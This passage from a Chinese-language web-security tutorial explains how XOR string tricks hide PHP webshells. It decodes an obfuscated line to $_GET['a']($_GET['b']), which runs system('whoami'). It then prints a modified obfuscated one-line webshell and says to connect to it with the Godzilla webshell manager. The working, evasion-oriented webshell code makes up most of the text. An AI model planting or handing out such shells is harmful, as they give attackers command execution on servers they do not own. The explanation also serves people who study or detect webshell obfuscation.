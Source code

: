 这时候，就可以执行 GET 传参：`?_=system&__=whoami` 来执行 whoami 命令

由 8.1 讲到 PHP 中如何异或，我们就先把最前面这部分拆出来看看

```plain
<?=~$_='$<>/'^'{{{{';
//即 '$<>/' ^ '{{{{'
//即 "$<>/" 这部分字符串与后面 "{{{{" 这部分字符串异或
```

所以由我们前面所学的知识，加上自己动手实践一下，可以发现异或结果为 `_GET`

所以整个 PHP 语句解密后，再将 `_` 替换为 `a`，将 `__` 替换为 `b`，则原 PHP 转化为：

```plain
$_GET['a']($_GET['b'])
```

当我们给 `a` 传 `system`，给 `b` 传 `whoami`，原式就会变成这样

```plain
system('whoami');
```

既然上面的代码你看懂了，那不妨看一下下面魔改的代码：

```plain
<?=~$_='$<>/'^'{{{{';$___='$}4(/' ^ '{-{{{';@${$_}[_](@${$___}[__]);
```

直接用 Godzilla 哥斯拉来连接，如下：

[![](assets/1707954023-e81279e4ae7124e926c5cd6ac3cbfa94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205143637-e9ad2b48-c3f0-1.png)
